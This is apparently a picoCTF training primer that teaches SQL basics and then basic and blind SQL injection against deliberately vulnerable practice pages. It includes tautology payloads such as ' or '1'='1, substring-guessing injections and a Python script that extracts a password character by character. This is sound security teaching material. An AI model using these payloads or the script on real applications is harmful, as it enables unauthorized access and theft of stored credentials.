

== Infiltrating in a database 

=== SQL

SQL is used to create and manipulate a very common type of databases called relational databases. SQL stands for Structured Query Language. With it you can create tables in a database, store data on them, and run different queries that let you extract and analyze data. We are going to see some examples in a relational database management system (RDBMS) called MySQL. Once you learn the basics of SQL in any RDBMS, it is easy to apply them in others. We are going to see a very quick introduction so you are able to understand the hacks. Let’s begin.

As we said, information is stored in tables. The following is an example of a table that we might call “user”:

[cols=",,,,",options="header",]
|===
|*Id* |*Name* |*Last Name* |*Phone* |*Password*
|1 |Jane |Doe |200 111 1111 |123456
|2 |Arpit |Gupta |200 111 1111 |hello
|3 |Melania |Clinton |201 333 3333 |password
|===

NOTE: The passwords in this table are just an example. In real life, you should never store the password directly in the database, as you will learn in the crypto section. Additionally, you should never use a password like those, they are too weak.

There are several online tools that you can easily find on Google to learn languages. For example, access the following web site:

https://paiza.io/en/projects/new?language=mysql[https://paiza.io/en/projects/new?language=mysql, window="_blank"]

We can execute MySQL statements online. So, let’s create our table from the previous example on it. First, delete the code present in the editor. You should be seeing something like this:

Now, you can create the table using the following statement:

create table user (id integer, name text, lastname text, phone text, password text);

Analyze the statement carefully. This statement creates a table called “user” with three columns. The first column is “id”, and has the data type int, which means integer. The other columns are “name”, “lastname”, and “phone”, which are of datatype text. In datatype integer, as you might guess, you can only store integers. In a datatype text, you can store strings. Put that statement in the SQL editor and hit the button “Run”. If it was successful, you will see a green bar on top of the editor with the label “success”. When you create tables in SQL, they are stored and become available to insert future data on them. However, in this online editor tables just survive in a single run, so in the same script we will have to create the table, insert the data, and query the data.

So far we have created the table but it is empty. To insert a row, add the following statement:

insert into user (id, name, lastname, phone, password) values (1, 'Jane', 'Doe', '200 111 1111', '123456');

As you can see, the statement is self explanatory. It will insert each of those values in each column of user conforming a new row. Hit run, and verify it was successful. It should look like this:

image:images/3image16.png[image,width=624,height=46]

Now, add the following line that will query the data you have inserted so far:

Select * from user;

The * means that you want to see the content of all the columns. Hit Run.

image:images/3image12.png[image,width=624,height=146]

You can see the results at the end. Now insert the two rows missing to conform our 3 row table:

image:images/3image24.png[image,width=624,height=177]

If you are interested in returning only some particular columns, you can list them instead of using the *. For example, let’s return only the name and lastname:

select name, lastname from user;

You will see:

image:images/3image10.png[image,width=624,height=154]

We can make our query more granular if we add a “where” clause like this:

select * from user *where id=2*;

Look at the query carefully. We already know that the * means we want to see the content of every column. In the ‘where’ clause we restrict which rows we want to return. What row do you think is going to return that query?

If you thought about this row:

[cols=",,,,",]
|===
|2 |Arpit |Gupta |200 111 1111 |hello
|===

You were right. That is because that row is the one with the value of 2 in its id. You could filter by any other field. If you are filtering a field of type text, you have to put the value enclosed single quotes. Remove the previous select statement, and add:

select * from user where phone='200 111 1111' ;

You should be seeing the following:

image:images/3image21.png[image,width=624,height=60]

Run it. If you look at the rows inserted. ‘Jone Doe’ had the same phone number as ‘Arpit Gupta’. The select statement should return 2 rows like this:

image:images/3image9.png[image,width=624,height=174]

We can also filter by two fields in the same query using the logical operators ‘and’ in the following manner:

select * from user where phone=’200 111 1111’ and name=’Jane’;

After the “where” clause, you can put several boolean expressions. As you learned previously in the programming chapter, when you use “and” it means that both expressions have to be true so the expression is true. The query should return this:

image:images/3image3.png[image,width=624,height=172]

Now, add another ‘and’ operator, to try to filter using a name that does not exist in the table:

select * from user where phone=’200 111 1111’ and name=’Jane’ and name=’Mario’;

The query should return no results, because ‘Mario’ does not exist in our database:

image:images/3image29.png[image,width=624,height=124]

Now, as an experiment add another filter, but this time use “or” instead of “and”. For example, run:

select * from user where phone=’200 111 1111’ and name=’Mario’ or name=’Arpit’;

You will see:

image:images/3image19.png[image,width=624,height=138]

What happened here? Analyze the query carefully. You know there is no one called Mario in our table. Why in the world the query return a row? If you think about it, any expression, no matter how long it is, if results in False, but then you do “or” with something that is true, it will be true. For example:

1=2 and 3=5 and 45=1 or 1=1

Will be true, because (1=2 and 3=5 and 45=1) is false, but (1=1) is true. This is fundamental for the basic SQL injection attack.

Try the following:

select * from user where phone='200 111 1111' and name='Mario' *or 1=1*;

image:images/3image20.png[image,width=624,height=148]

You just returned all the results! That happens, as you might guess, because “1=1” is always true. As an exercise, create a new table with new data and create new queries.

=== Basic SQL injection

The objective of the basic SQL injection we are learning, is trying to inject an “or” expression that is always true. In that way the server code constructs a query using the user input that deceives the program into it returning the whole table. That happens, when a program is concatenating string to construct a query in the server code. The following is an example in PHP:

*"SELECT * FROM user where name='".$name."' and password='".$password."';"*

The red part of the query, will be concatenated with the value of the variables to conform the final query. Let’s suppose that $name is equal to “samuel”, and $password is equal to “hello”, the query would result in

*SELECT * FROM user where name='samuel' and password='hello';*

What would happen if the password contains a single quote? That might break the syntax of the SQL query. Even worse, it could be used to inject your own sql. For example, if the value of $password is:

*' or '1'='1*

The resultant query would be:

*SELECT * FROM user where name='samuel' and password='' or '1'='1';*

Which is a perfectly valid query that will return the whole table. Use what you just learn here to return all the users:

http://primer.picoctf.com/vuln/web/basicsql.php[http://primer.picoctf.com/vuln/web/basicsql.php, window="_blank"]

This kind of vulnerability it is rarely present in applications. One that is more common, is the blind sql injection.

=== Blind SQL injection

In this kind of vulnerability, the application does not return all the data to you. However, it is enough that the application shows an error message saying that no data was found or that an error has occurred, to figure out the content we are looking for.

To illustrate this, we are going to attack the following page:

http://primer.picoctf.com/vuln/web/blindsql.php[http://primer.picoctf.com/vuln/web/blindsql.php, window="_blank"]

If we input our previous injection in the password field:

*' or '1'='1*

We will see that the application found something and shows the message “REGISTER FOUND”:

image:images/3image28.png[image,width=624,height=205]

Internally, the injection deceives the application into returning records, but the application did not show us those records. That’s why it is called Blind SQL injection. We are able to inject SQL, but we cannot see the result!

What we can do about this? We are going to try to inject a SQL to guess one character of a field at a time. Suppose we want to guess the first character of the password. If we don’t guess it, the application will return “NOTHING FOUND”. If we guess it, it will return “REGISTER FOUND”.

Note that is fundamental to be able to guess only one character at a time. Trying to guess a whole string at the same time, is much harder. Suppose a word is made up by a combination of the 26 characters of the alphabet. To guess only the first letter, we only have to try 26 values. However, if we try to guess the whole word, is much more complicated. To illustrate this, suppose we have a word of two letters. If we can guess one at a time, we would need at most 26 trials for the first one, and 26 trials for the second one, for a total of 52 trials. On the other hand, if we try to guess both letters at a time, we would need 26*26 trials, which is 626 trials, because they can have different combinations. If we add more characters, guessing the whole word becomes much harder because it would emerge too many possible words. Nonetheless, guessing one letter at a time, will keep being only 26 trials for each letter. The blind SQL injection is based on that fact, it will try to inject a query that only compares one character at a time.

To be able to do that, you need to know the name of the column you are trying to guess. This happens to be not that hard, because in many cases you can infer the name of the database column based on the name of the html input. In other cases you can leak the name if an error occurs inside the application, and in the error message the application shows the value of the columns.

For the page we are attacking in this example the names are the same as the html input. One column is called ‘name’, and the other one is called ‘password’.

So far, you know that if you inject:

*' or '1'='1*

It will return results, but you are not learning any information. We know two column names, ‘username’ and password. For this example, suppose you know a user called “picoctf”. So you will try to get the password from that user. To narrow down the query to the row in which is stored the user picoctf information, you could use

*' or username='picoctf*

Note that we do not use the *'1'='1* any more because we want a statement that will filter only one user. If you inject that on the password field from the web page, you will still see:

image:images/3image14.png[image,width=624,height=130]

Remember that in our injection, if the part at the right of the “or” is true, it will return results. It is true that username is equal to ‘picoctf’ only in the row on the picoctf!

Now we will add the part that compares the first character of the password. We can do that using an embedded query. An embedded query is a query inside a query. Our embedded query highlighted in red, will simply return the first character of the password. We will compare that first character with the character ‘a’, so we are guessing that the first character is ‘a’:

*' or username='picoctf' and (select substr(password, 1, 1))='a*

If you inject that, you will see that nothing was found:

image:images/3image8.png[image,width=624,height=206]

That is because we did not guess the first character. If you keep trying different characters, you will find that the first character of the password is ‘f’, when you inject this:

*' or username='picoctf' and (select substr(password, 1, 1))='f*

And see as a result this:

image:images/3image5.png[image,width=624,height=185]

You could possibly find the whole password manually, but it would take too much effort. On the other hand, you may want to obtain all the passwords in the database, or even all the fields from the database! This same process can be applied for any field… In most of the SQL engines there is a system table that contains the names of all tables and columns, so once we find a SQL injections databases we might be able to leak the whole database. For this exercise we will only obtain one password. To be more efficient, we will write a python script that does the job for us. Suppose we found the name of the table in some way. The script would be the following:

[source, python]
import requests
from string import printable
accum=""
for i in range(40):
  for letter in printable:
    accum+=letter
    r = requests.post("http://primer.picoctf.com/vuln/web/blindsql.php?&username=WeDontCare&password=' or '"
    + letter+"'=( select substr(binary password,"+str(i)+",1) from pico_blind_injection where id=1 ) and ''= '")
    if 'NOTHING FOUND...' in r.text:
      accum=accum[:-1]
      print "nope"
    else:
      print "We found the character: "+letter
print accum

This script is just one of the many ways in which a blind SQL injection can be done. With your knowledge of Python and SQL, you should be able to understand the script if you read it carefully. Note the following:

* ‘Printable’ is just a string with all the printable ASCII characters, and we iterate over them.

* ‘Binary’ in mysql context, is just a way to specify the we want to make a case sensitive comparisons. If we do not use it, we would not be able to identify if a character is lowercase or uppercase.

* We are sending GET parameters to the web site. For this reason we can encode them in the URL.

* We put the *select '* at the end of the query to handle the closing single quote.

* ‘NOTHING FOUND...’ Is the message printed in the html, so if that is present in the html

* To clear your doubts, experiment in the SQL editor with similar queries, or do prints on the python script to make sure you understand every part of it.

Depending on the SQL engine, there can be several ways to inject SQL. Even Frameworks that handle the queries for you, might have vulnerabilities in some versions, or because they are used incorrectly by developers.

Keep up the good work!